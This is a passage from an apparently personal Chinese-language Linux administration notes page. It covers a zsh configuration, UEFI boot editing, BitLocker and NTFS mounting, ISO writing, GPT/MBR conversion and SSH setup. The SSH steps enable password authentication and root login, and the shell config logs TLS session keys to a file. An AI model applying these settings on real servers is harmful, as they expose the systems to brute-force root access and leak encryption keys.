<span class="keyword">if</span> [ -f /usr/share/zsh-syntax-highlighting/zsh-syntax-highlighting.zsh ] &amp;&amp; [ <span class="string">"<span class="variable">$color_prompt</span>"</span> = yes ]; <span class="keyword">then</span></span><br><span class="line">	<span class="comment"># ksharrays breaks the plugin. This is fixed now but let's disable it in the</span></span><br><span class="line">	<span class="comment"># meantime.</span></span><br><span class="line">	<span class="comment"># https://github.com/zsh-users/zsh-syntax-highlighting/pull/689</span></span><br><span class="line">	<span class="built_in">unsetopt</span> ksharrays</span><br><span class="line">	. /usr/share/zsh-syntax-highlighting/zsh-syntax-highlighting.zsh</span><br><span class="line">	ZSH_HIGHLIGHT_HIGHLIGHTERS=(main brackets pattern)</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[default]=none</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[unknown-token]=<span class="built_in">fg</span>=red,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[reserved-word]=<span class="built_in">fg</span>=cyan,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[suffix-alias]=<span class="built_in">fg</span>=green,underline</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[global-alias]=<span class="built_in">fg</span>=magenta</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[precommand]=<span class="built_in">fg</span>=green,underline</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[commandseparator]=<span class="built_in">fg</span>=blue,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[autodirectory]=<span class="built_in">fg</span>=green,underline</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[path]=underline</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[path_pathseparator]=</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[path_prefix_pathseparator]=</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[globbing]=<span class="built_in">fg</span>=blue,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[<span class="built_in">history</span>-expansion]=<span class="built_in">fg</span>=blue,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[<span class="built_in">command</span>-substitution]=none</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[<span class="built_in">command</span>-substitution-delimiter]=<span class="built_in">fg</span>=magenta</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[process-substitution]=none</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[process-substitution-delimiter]=<span class="built_in">fg</span>=magenta</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[single-hyphen-option]=<span class="built_in">fg</span>=magenta</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[double-hyphen-option]=<span class="built_in">fg</span>=magenta</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[back-quoted-argument]=none</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[back-quoted-argument-delimiter]=<span class="built_in">fg</span>=blue,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[single-quoted-argument]=<span class="built_in">fg</span>=yellow</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[double-quoted-argument]=<span class="built_in">fg</span>=yellow</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[dollar-quoted-argument]=<span class="built_in">fg</span>=yellow</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[rc-quote]=<span class="built_in">fg</span>=magenta</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[dollar-double-quoted-argument]=<span class="built_in">fg</span>=magenta</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[back-double-quoted-argument]=<span class="built_in">fg</span>=magenta</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[back-dollar-quoted-argument]=<span class="built_in">fg</span>=magenta</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[assign]=none</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[redirection]=<span class="built_in">fg</span>=blue,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[comment]=<span class="built_in">fg</span>=black,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[named-fd]=none</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[numeric-fd]=none</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[arg0]=<span class="built_in">fg</span>=green</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[bracket-error]=<span class="built_in">fg</span>=red,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[bracket-level-1]=<span class="built_in">fg</span>=blue,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[bracket-level-2]=<span class="built_in">fg</span>=green,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[bracket-level-3]=<span class="built_in">fg</span>=magenta,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[bracket-level-4]=<span class="built_in">fg</span>=yellow,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[bracket-level-5]=<span class="built_in">fg</span>=cyan,bold</span><br><span class="line">	ZSH_HIGHLIGHT_STYLES[cursor-matchingbracket]=standout</span><br><span class="line">    <span class="keyword">fi</span></span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">    PROMPT=<span class="string">'$&#123;debian_chroot:+($debian_chroot)&#125;%n@%m:%~%# '</span></span><br><span class="line"><span class="keyword">fi</span></span><br><span class="line"><span class="built_in">unset</span> color_prompt force_color_prompt</span><br><span class="line"></span><br><span class="line"><span class="comment"># If this is an xterm set the title to user@host:dir</span></span><br><span class="line"><span class="keyword">case</span> <span class="string">"<span class="variable">$TERM</span>"</span> <span class="keyword">in</span></span><br><span class="line">xterm*|rxvt*)</span><br><span class="line">    TERM_TITLE=<span class="string">'\e]0;$&#123;debian_chroot:+($debian_chroot)&#125;%n@%m: %~\a'</span></span><br><span class="line">    ;;</span><br><span class="line">*)</span><br><span class="line">    ;;</span><br><span class="line"><span class="keyword">esac</span></span><br><span class="line"></span><br><span class="line">new_line_before_prompt=yes</span><br><span class="line"><span class="function"><span class="title">precmd</span></span>() &#123;</span><br><span class="line">    <span class="comment"># Print the previously configured title</span></span><br><span class="line">    <span class="built_in">print</span> -Pn <span class="string">"<span class="variable">$TERM_TITLE</span>"</span></span><br><span class="line"></span><br><span class="line">    <span class="comment"># Print a new line before the prompt, but only if it is not the first line</span></span><br><span class="line">    <span class="keyword">if</span> [ <span class="string">"<span class="variable">$new_line_before_prompt</span>"</span> = yes ]; <span class="keyword">then</span></span><br><span class="line">	<span class="keyword">if</span> [ -z <span class="string">"<span class="variable">$_NEW_LINE_BEFORE_PROMPT</span>"</span> ]; <span class="keyword">then</span></span><br><span class="line">	    _NEW_LINE_BEFORE_PROMPT=1</span><br><span class="line">	<span class="keyword">else</span></span><br><span class="line">	    <span class="built_in">print</span> <span class="string">""</span></span><br><span class="line">	<span class="keyword">fi</span></span><br><span class="line">    <span class="keyword">fi</span></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment"># enable color support of ls, less and man, and also add handy aliases</span></span><br><span class="line"><span class="keyword">if</span> [ -x /usr/bin/dircolors ]; <span class="keyword">then</span></span><br><span class="line">    <span class="built_in">test</span> -r ~/.dircolors &amp;&amp; <span class="built_in">eval</span> <span class="string">"<span class="variable">$(dircolors -b ~/.dircolors)</span>"</span> || <span class="built_in">eval</span> <span class="string">"<span class="variable">$(dircolors -b)</span>"</span></span><br><span class="line">    <span class="built_in">alias</span> ls=<span class="string">'ls --color=auto'</span></span><br><span class="line">    <span class="comment">#alias dir='dir --color=auto'</span></span><br><span class="line">    <span class="comment">#alias vdir='vdir --color=auto'</span></span><br><span class="line"></span><br><span class="line">    <span class="built_in">alias</span> grep=<span class="string">'grep --color=auto'</span></span><br><span class="line">    <span class="built_in">alias</span> fgrep=<span class="string">'fgrep --color=auto'</span></span><br><span class="line">    <span class="built_in">alias</span> egrep=<span class="string">'egrep --color=auto'</span></span><br><span class="line">    <span class="built_in">alias</span> diff=<span class="string">'diff --color=auto'</span></span><br><span class="line">    <span class="built_in">alias</span> ip=<span class="string">'ip --color=auto'</span></span><br><span class="line"></span><br><span class="line">    <span class="built_in">export</span> LESS_TERMCAP_mb=$<span class="string">'\E[1;31m'</span>     <span class="comment"># begin blink</span></span><br><span class="line">    <span class="built_in">export</span> LESS_TERMCAP_md=$<span class="string">'\E[1;36m'</span>     <span class="comment"># begin bold</span></span><br><span class="line">    <span class="built_in">export</span> LESS_TERMCAP_me=$<span class="string">'\E[0m'</span>        <span class="comment"># reset bold/blink</span></span><br><span class="line">    <span class="built_in">export</span> LESS_TERMCAP_so=$<span class="string">'\E[01;33m'</span>    <span class="comment"># begin reverse video</span></span><br><span class="line">    <span class="built_in">export</span> LESS_TERMCAP_se=$<span class="string">'\E[0m'</span>        <span class="comment"># reset reverse video</span></span><br><span class="line">    <span class="built_in">export</span> LESS_TERMCAP_us=$<span class="string">'\E[1;32m'</span>     <span class="comment"># begin underline</span></span><br><span class="line">    <span class="built_in">export</span> LESS_TERMCAP_ue=$<span class="string">'\E[0m'</span>        <span class="comment"># reset underline</span></span><br><span class="line"></span><br><span class="line">    <span class="comment"># Take advantage of $LS_COLORS for completion as well</span></span><br><span class="line">    <span class="built_in">zstyle</span> <span class="string">':completion:*'</span> list-colors <span class="string">"<span class="variable">$&#123;(s.:.)LS_COLORS&#125;</span>"</span></span><br><span class="line"><span class="keyword">fi</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># some more ls aliases</span></span><br><span class="line"><span class="built_in">alias</span> ll=<span class="string">'ls -l'</span></span><br><span class="line"><span class="built_in">alias</span> la=<span class="string">'ls -A'</span></span><br><span class="line"><span class="built_in">alias</span> l=<span class="string">'ls -CF'</span></span><br><span class="line"><span class="built_in">alias</span> scrcpy=<span class="string">'/home/$USER/Prog/scrcpy/run /home/$USER/Prog/scrcpy/x'</span></span><br><span class="line"><span class="built_in">alias</span> gitac=<span class="string">'git add . -A &amp;&amp; git commit -m "add and update ———— `date` "'</span></span><br><span class="line"><span class="built_in">alias</span> gitfindhistory=<span class="string">'gitsearch()&#123;git log --all --pretty=oneline -- $1&#125;;gitsearch'</span></span><br><span class="line"><span class="comment"># alias hcg='hexo clean &amp;&amp; hexo g'</span></span><br><span class="line"><span class="built_in">alias</span> gitam=<span class="string">'git add . -A &amp;&amp; git commit -m '</span></span><br><span class="line"><span class="built_in">alias</span> duls=<span class="string">'du -sh ./*'</span></span><br><span class="line"><span class="built_in">alias</span> dulsd=<span class="string">'du -sh `la`'</span></span><br><span class="line"><span class="built_in">alias</span> ngxstart=<span class="string">'sudo systemctl start nginx.service'</span></span><br><span class="line"><span class="built_in">alias</span> ngxstop=<span class="string">'sudo systemctl stop nginx.service'</span></span><br><span class="line"><span class="built_in">alias</span> panda_sock=<span class="string">'export ALL_PROXY=socks5://127.0.0.1:1090'</span></span><br><span class="line"><span class="built_in">alias</span> zshrc=<span class="string">'vim ~/.zshrc'</span></span><br><span class="line"><span class="built_in">alias</span> szsh=<span class="string">'source ~/.zshrc'</span></span><br><span class="line"><span class="built_in">alias</span> apastart=<span class="string">'sudo systemctl start apache2.service'</span></span><br><span class="line"><span class="built_in">alias</span> apastop=<span class="string">'sudo systemctl stop apache2.service'</span></span><br><span class="line"><span class="built_in">alias</span> upgrade=<span class="string">'sudo apt update &amp;&amp; sudo apt upgrade'</span></span><br><span class="line"><span class="built_in">alias</span> githardpull=<span class="string">'git fetch --all &amp;&amp; git reset --hard'</span></span><br><span class="line"><span class="comment"># alias java8='/home/jessie/Prog/Application/jdk-8/bin/java'</span></span><br><span class="line"><span class="built_in">alias</span> ffmpegss=<span class="string">'ffmpegCutVideo()&#123;ffmpeg -ss $3 -to $4 -i $1 -vcodec copy -acodec copy $2&#125;;ffmpegCutVideo'</span></span><br><span class="line"><span class="built_in">alias</span> ssa=<span class="string">'sudo systemctl start'</span></span><br><span class="line"><span class="built_in">alias</span> sss=<span class="string">'sudo systemctl status'</span></span><br><span class="line"><span class="built_in">alias</span> ssd=<span class="string">'sudo systemctl stop'</span></span><br><span class="line"><span class="built_in">alias</span> ssf=<span class="string">'sudo systemctl restart'</span></span><br><span class="line"></span><br><span class="line"><span class="built_in">export</span> SSLKEYLOGFILE=~/.ssl-key.log</span><br><span class="line"><span class="built_in">export</span> PATH=<span class="variable">$PATH</span>:/opt/gradle/gradle-7.2/bin</span><br><span class="line"><span class="built_in">unset</span> _JAVA_OPTIONS</span><br><span class="line"></span><br><span class="line"><span class="comment"># enable auto-suggestions based on the history</span></span><br><span class="line"><span class="keyword">if</span> [ -f /usr/share/zsh-autosuggestions/zsh-autosuggestions.zsh ]; <span class="keyword">then</span></span><br><span class="line">    . /usr/share/zsh-autosuggestions/zsh-autosuggestions.zsh</span><br><span class="line">    <span class="comment"># change suggestion color</span></span><br><span class="line">    ZSH_AUTOSUGGEST_HIGHLIGHT_STYLE=<span class="string">'fg=#999'</span></span><br><span class="line"><span class="keyword">fi</span></span><br><span class="line"><span class="built_in">export</span> PATH=<span class="string">"<span class="variable">$PATH</span>:/usr/sbin"</span></span><br></pre></td></tr></table></figure>
<h2 id="系统管理"><a href="#系统管理" class="headerlink" title="系统管理"></a>系统管理</h2><h3 id="启动引导"><a href="#启动引导" class="headerlink" title="启动引导"></a>启动引导</h3><h4 id="Efibootmgr——修改UEFI启动引导菜单"><a href="#Efibootmgr——修改UEFI启动引导菜单" class="headerlink" title="Efibootmgr——修改UEFI启动引导菜单"></a>Efibootmgr——修改UEFI启动引导菜单</h4><figure class="highlight vala"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta"># 修改uefi启动引导：</span></span><br><span class="line"><span class="meta"># 列出：</span></span><br><span class="line">efibootmgr</span><br><span class="line"><span class="meta"># 启动顺序：</span></span><br><span class="line">efibootmgr -o a,b,c,d……</span><br><span class="line"><span class="meta"># 启用、禁用：</span></span><br><span class="line">efibootmgr -a/-A -b [xxx]</span><br><span class="line"><span class="meta"># 删除：</span></span><br><span class="line">efibootmgr -b [xxx] -B</span><br><span class="line"><span class="meta"># 添加：</span></span><br><span class="line">efibootmgr -c -w -L <span class="string">"DebianUSB[标签]"</span> -d /dev/sdc[设备] -p <span class="number">1</span>[分区号] -l \\EFI\\debian\\grubx64.efi[efi文件位置]</span><br></pre></td></tr></table></figure>
<h3 id="磁盘管理相关"><a href="#磁盘管理相关" class="headerlink" title="磁盘管理相关"></a>磁盘管理相关</h3><h4 id="Debian查看Bitlocker加密磁盘——最笨的办法"><a href="#Debian查看Bitlocker加密磁盘——最笨的办法" class="headerlink" title="Debian查看Bitlocker加密磁盘——最笨的办法"></a>Debian查看Bitlocker加密磁盘——最笨的办法</h4><figure class="highlight dts"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta"># 安装dislocker、fuse</span></span><br><span class="line">sudo dislocker [<span class="meta-keyword">/dev/</span>sdc2] -u -- <span class="meta-keyword">/media/</span>bitlocker</span><br><span class="line"><span class="meta"># []里是设备名称，后面会要求输入bitlocker密码</span></span><br><span class="line"><span class="meta"># 下一个命令是把解密好的分区挂在到bitlockermount</span></span><br><span class="line">sudo mount -o loop <span class="meta-keyword">/media/</span>bitlocker/dislocker-file <span class="meta-keyword">/media/</span>bitlockermount</span><br><span class="line"></span><br><span class="line"><span class="meta"># 开机自动挂载需要修改fstab（修改前记得备份！）</span></span><br><span class="line"><span class="params">&lt;partition&gt;</span> <span class="meta-keyword">/media/</span>bitlocker fuse.dislocker user-password=<span class="params">&lt;password&gt;</span>,nofail <span class="number">0</span> <span class="number">0</span></span><br><span class="line"><span class="meta-keyword">/media/</span>bitlocker/dislocker-file <span class="meta-keyword">/media/</span>bitlockermount auto nofail <span class="number">0</span> <span class="number">0</span></span><br></pre></td></tr></table></figure>
<h4 id="Ntfsfix——解决Linux挂载-Windows-NTFS-磁盘-Read-Only-状态"><a href="#Ntfsfix——解决Linux挂载-Windows-NTFS-磁盘-Read-Only-状态" class="headerlink" title="Ntfsfix——解决Linux挂载 Windows NTFS 磁盘 Read-Only 状态"></a>Ntfsfix——解决Linux挂载 Windows NTFS 磁盘 Read-Only 状态</h4><blockquote>
<p>原因：windows关机没关好，用的快速启动</p>
</blockquote>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br></pre></td><td class="code"><pre><span class="line">root@ASUS-Tek004:/home/jessie/Mounted# mount /dev/sdb6 .</span><br><span class="line">The disk contains an unclean file<span class="built_in"> system </span>(0, 0).</span><br><span class="line">Metadata kept <span class="keyword">in</span> Windows cache, refused <span class="keyword">to</span> mount.</span><br><span class="line">Falling back <span class="keyword">to</span> read-only mount because the NTFS partition is <span class="keyword">in</span> an</span><br><span class="line">unsafe state. Please resume <span class="keyword">and</span> shutdown Windows fully (<span class="literal">no</span> hibernation</span><br><span class="line"><span class="keyword">or</span> fast restarting.)</span><br><span class="line">Could <span class="keyword">not</span> mount read-write, trying read-only</span><br><span class="line"></span><br><span class="line">root@ASUS-Tek004:/home/jessie/Mounted# mount /dev/sdb6 .</span><br><span class="line">The disk contains an unclean file<span class="built_in"> system </span>(0, 0).</span><br><span class="line">Metadata kept <span class="keyword">in</span> Windows cache, refused <span class="keyword">to</span> mount.</span><br><span class="line">Falling back <span class="keyword">to</span> read-only mount because the NTFS partition is <span class="keyword">in</span> an</span><br><span class="line">unsafe state. Please resume <span class="keyword">and</span> shutdown Windows fully (<span class="literal">no</span> hibernation</span><br><span class="line"><span class="keyword">or</span> fast restarting.)</span><br><span class="line">Could <span class="keyword">not</span> mount read-write, trying read-only</span><br><span class="line"></span><br><span class="line">root@ASUS-Tek004:/home/jessie/Mounted# ntfsfix /dev/sdb6</span><br><span class="line">Mounting volume<span class="built_in">..</span>. The disk contains an unclean file<span class="built_in"> system </span>(0, 0).</span><br><span class="line">Metadata kept <span class="keyword">in</span> Windows cache, refused <span class="keyword">to</span> mount.</span><br><span class="line">FAILED</span><br><span class="line">Attempting <span class="keyword">to</span> correct errors<span class="built_in">..</span>. </span><br><span class="line">Processing <span class="variable">$MFT</span> <span class="keyword">and</span> <span class="variable">$MFTMirr</span><span class="built_in">..</span>.</span><br><span class="line">Reading <span class="variable">$MFT</span><span class="built_in">..</span>. OK</span><br><span class="line">Reading <span class="variable">$MFTMirr</span><span class="built_in">..</span>. OK</span><br><span class="line">Comparing <span class="variable">$MFTMirr</span> <span class="keyword">to</span> <span class="variable">$MFT</span><span class="built_in">..</span>. OK</span><br><span class="line">Processing of <span class="variable">$MFT</span> <span class="keyword">and</span> <span class="variable">$MFTMirr</span> completed successfully.</span><br><span class="line">Setting required flags on partition<span class="built_in">..</span>. OK</span><br><span class="line">Going <span class="keyword">to</span> empty the journal (<span class="variable">$LogFile</span>)<span class="built_in">..</span>. OK</span><br><span class="line">Checking the alternate boot sector<span class="built_in">..</span>. OK</span><br><span class="line">NTFS volume version is 3.1.</span><br><span class="line">NTFS partition /dev/sdb6 was processed successfully.</span><br><span class="line">	</span><br><span class="line">root@ASUS-Tek004:/home/jessie/Mounted# ntfsfix /dev/sdb6</span><br><span class="line">Mounting volume<span class="built_in">..</span>. OK</span><br><span class="line">Processing of <span class="variable">$MFT</span> <span class="keyword">and</span> <span class="variable">$MFTMirr</span> completed successfully.</span><br><span class="line">Checking the alternate boot sector<span class="built_in">..</span>. OK</span><br><span class="line">NTFS volume version is 3.1.</span><br><span class="line">NTFS partition /dev/sdb6 was processed successfully.</span><br></pre></td></tr></table></figure>
<h4 id="Linux-写入ISO文件到USB"><a href="#Linux-写入ISO文件到USB" class="headerlink" title="Linux 写入ISO文件到USB"></a>Linux 写入ISO文件到USB</h4><blockquote>
<p>参考<a href="https://www.system-rescue.org/Installing-SystemRescue-on-a-USB-memory-stick/" target="_blank" rel="noopener">资料</a></p>
</blockquote>
<h5 id="USB-Imager"><a href="#USB-Imager" class="headerlink" title="USB Imager"></a>USB Imager</h5><blockquote>
<p><a href="https://gitlab.com/bztsrc/usbimager/" target="_blank" rel="noopener">https://gitlab.com/bztsrc/usbimager/</a></p>
<p><a href="https://gitlab.com/bztsrc/usbimager/raw/binaries/usbimager_1.0.5-x86_64-linux-x11.zip" target="_blank" rel="noopener">下载</a></p>
</blockquote>
<h5 id="DD"><a href="#DD" class="headerlink" title="DD"></a>DD</h5><ol>
<li>首先卸载USB，使用<code>umount</code></li>
<li>运行<code>lsblk</code>查看USB设备</li>
<li><code>sudo dd if=/path/to/systemrescue-x.y.z.iso of=/dev/sdx status=progress</code> ：<code>/dev/sdx</code>指的是USB设备</li>
</ol>
<h5 id="Fedora-Media-Writer"><a href="#Fedora-Media-Writer" class="headerlink" title="Fedora Media Writer"></a>Fedora Media Writer</h5><blockquote>
<p><a href="https://flathub.org/apps/details/org.fedoraproject.MediaWriter" target="_blank" rel="noopener">https://flathub.org/apps/details/org.fedoraproject.MediaWriter</a></p>
</blockquote>
<h4 id="GPT-or-MBR-？"><a href="#GPT-or-MBR-？" class="headerlink" title="GPT or MBR ？"></a>GPT or MBR ？</h4><p><strong>在GPT和MBR之间选择</strong></p>
<p>GUID分区表（GPT）是一种替代性的现代分区样式；它旨在替换旧的主启动记录（MBR）系统。与MBR相比，GPT具有许多优势，而MBR可以追溯到MS-DOS时代。随着格式化工具的最新发展，获得GPT或MBR的良好可靠性和性能同样容易。 </p>
<p><strong>注意：</strong>要使GRUB从基于BIOS的系统上的GPT分区磁盘<a href="https://wiki.archlinux.org/index.php/BIOS_boot_partition" target="_blank" rel="noopener">引导</a>，需要<a href="https://wiki.archlinux.org/index.php/BIOS_boot_partition" target="_blank" rel="noopener">BIOS引导分区</a>。</p>
<p>选择时应考虑以下几点： </p>
<ul>
<li>要使用旧版BIOS与Windows（32位和64位）双重引导，需要MBR方案。</li>
<li>要使用<a href="https://wiki.archlinux.org/index.php/UEFI" target="_blank" rel="noopener">UEFI</a>模式而不是BIOS双启动Windows 64位，需要GPT方案。</li>
<li>如果要在较旧的硬件上安装，尤其是在较旧的笔记本电脑上，请考虑选择MBR，因为它的BIOS可能不支持GPT（但<a href="https://wiki.archlinux.org/index.php/Partitioning#Tricking_old_BIOS_into_booting_from_GPT" target="_blank" rel="noopener">请参阅下面的</a>解决方法）。</li>
<li>如果要对大于2 TiB的磁盘进行分区，则需要使用GPT。</li>
<li>建议始终使用GPT进行<a href="https://wiki.archlinux.org/index.php/UEFI" target="_blank" rel="noopener">UEFI</a>引导，因为某些UEFI实施不支持在UEFI模式下引导到MBR。</li>
<li>如果上述都不适用，请在GPT和MBR之间自由选择。由于GPT更现代，因此在这种情况下建议使用。</li>
</ul>
<p>与MBR相比，GPT的一些优点是：</p>
<ul>
<li>为每个分区提供唯一的磁盘GUID和唯一的分区GUID（<a href="https://wiki.archlinux.org/index.php/PARTUUID" target="_blank" rel="noopener">PARTUUID</a>）-一种独立于文件系统的良好的引用分区和磁盘的方式。</li>
<li>提供独立于文件系统的分区名称（<a href="https://wiki.archlinux.org/index.php/PARTLABEL" target="_blank" rel="noopener">PARTLABEL</a>）。</li>
<li>分区的任意数量-取决于为分区表分配的空间-不需要扩展分区和逻辑分区。默认情况下，GPT表包含用于定义128个分区的空间。但是，如果要定义更多分区，则可<em>以为</em>分区表分配更多空间（当前已知只有<em>gdisk</em>支持此功能）。</li>
<li>使用64位LBA存储扇区号-最大可寻址磁盘大小为2 ZiB。MBR限于每个驱动器寻址2 TiB的空间。<a href="https://superuser.com/a/1028994" target="_blank" rel="noopener">[1]</a></li>
<li>在磁盘末尾存储备份头和分区表，以帮助在主磁盘损坏时进行<a href="https://wiki.archlinux.org/index.php/Gdisk#Recover_GPT_header" target="_blank" rel="noopener">恢复</a>。</li>
<li>CRC32校验和以检测标头和分区表的错误和损坏。</li>
</ul>
<p><strong>GPT、MBR互转</strong></p>
<p>fdisk命令是针对MBR分区格式的，虽然能用<code>g</code>命令把磁盘格式化为GPT，但是无法再重新格式化为MBR格式，因为fdisk命令无法操作GPT格式的磁盘——出自<a href="https://blog.csdn.net/zougen/article/details/79552056" target="_blank" rel="noopener">这里</a></p>
<p><code>parted 【设备名/dev/sda1】</code> 或者 <code>parted -s /dev/sda mklabel msdos</code></p>
<figure class="highlight pgsql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br></pre></td><td class="code"><pre><span class="line"># parted /dev/vdb</span><br><span class="line">(parted)mktable</span><br><span class="line"><span class="built_in">New</span> disk label <span class="keyword">type</span>?  msdos</span><br><span class="line"><span class="built_in">Warning</span>: The existing disk label <span class="keyword">on</span> /dev/vdb will be destroyed <span class="keyword">and</span> <span class="keyword">all</span> data <span class="keyword">on</span></span><br><span class="line">this disk will be lost. <span class="keyword">Do</span> you want <span class="keyword">to</span> <span class="keyword">continue</span>?</span><br><span class="line">Yes/<span class="keyword">No</span>?Yes</span><br><span class="line"></span><br><span class="line">[root@rhel7 ~]# parted /dev/sdb</span><br><span class="line">GNU Parted <span class="number">3.1</span></span><br><span class="line"><span class="keyword">Using</span> /dev/sdb</span><br><span class="line">Welcome <span class="keyword">to</span> GNU Parted! <span class="keyword">Type</span> <span class="string">'help'</span> <span class="keyword">to</span> <span class="keyword">view</span> a list <span class="keyword">of</span> commands.</span><br><span class="line">(parted) mklabel                                        </span><br><span class="line"><span class="built_in">New</span> disk label <span class="keyword">type</span>? gpt</span><br><span class="line"><span class="built_in">Warning</span>: The existing disk label <span class="keyword">on</span> /dev/sdb will be destroyed <span class="keyword">and</span> <span class="keyword">all</span> data <span class="keyword">on</span> this disk will be lost. <span class="keyword">Do</span> you want <span class="keyword">to</span> <span class="keyword">continue</span>?</span><br><span class="line">Yes/<span class="keyword">No</span>? yes                                                                             </span><br><span class="line">(parted) quit                                                             </span><br><span class="line">Information: You may need <span class="keyword">to</span> <span class="keyword">update</span> /etc/fstab.</span><br></pre></td></tr></table></figure>
<h3 id="网络、服务与进程"><a href="#网络、服务与进程" class="headerlink" title="网络、服务与进程"></a>网络、服务与进程</h3><h4 id="Networking——网络"><a href="#Networking——网络" class="headerlink" title="Networking——网络"></a>Networking——网络</h4><p>Netstat显示活动中或传输中的 TCP 会话</p>
<p><code>netstat -tupan</code></p>
<h4 id="Top——任务管理器"><a href="#Top——任务管理器" class="headerlink" title="Top——任务管理器"></a>Top——任务管理器</h4><h4 id="杀死带有‘xxx’名称的进程"><a href="#杀死带有‘xxx’名称的进程" class="headerlink" title="杀死带有‘xxx’名称的进程"></a>杀死带有‘xxx’名称的进程</h4><figure class="highlight autohotkey"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">kill -<span class="number">9</span> `ps -ef | grep xxx | awk '&#123;print $<span class="number">2</span>&#125;'`</span><br><span class="line">！注意：最后面是反引号“`”</span><br></pre></td></tr></table></figure>
<h3 id="系统功能"><a href="#系统功能" class="headerlink" title="系统功能"></a>系统功能</h3><h4 id="配置SSH"><a href="#配置SSH" class="headerlink" title="配置SSH"></a>配置SSH</h4><blockquote>
<p>ssh服务的默认端口是22，一般的恶意用户也往往扫描或尝试连接22端口。</p>
</blockquote>
<ol>
<li><p>首先修改SSH默认端口（有必要的话）：<code>vi /etc/ssh/sshd_config</code>  </p>
<p>找到 <code>Port 22</code>  ,然后将22修改为其它没有被占用的端口，如1022。最好在1-1024之间，防止与用户进程端口冲突。</p>
</li>
<li><p>将<code>#PasswordAuthentication no</code>  该行前面的#去掉，并且将”NO“修改为”YES“</p>
</li>
<li><p>修改或添加 <code>#PermitRootLogin yes</code> </p>
</li>
<li><p>然后重启sshd即可：<br><code>/etc/init.d/ssh restart</code><br><code>/etc/init.d/ssh start</code><br><code>/etc/init.d/ssh status</code></p>
</li>
